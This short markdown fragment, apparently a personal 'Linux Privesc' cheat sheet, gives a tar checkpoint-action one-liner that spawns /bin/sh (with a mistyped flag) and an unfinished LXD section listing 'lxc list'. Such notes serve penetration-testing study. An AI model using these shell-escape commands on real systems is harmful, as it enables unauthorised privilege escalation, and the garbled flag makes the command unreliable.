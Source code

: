 # Linux Privesc

Tar
----
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint--action=exec='/bin/sh'

LXD
----
1. Check images
`lxc list`

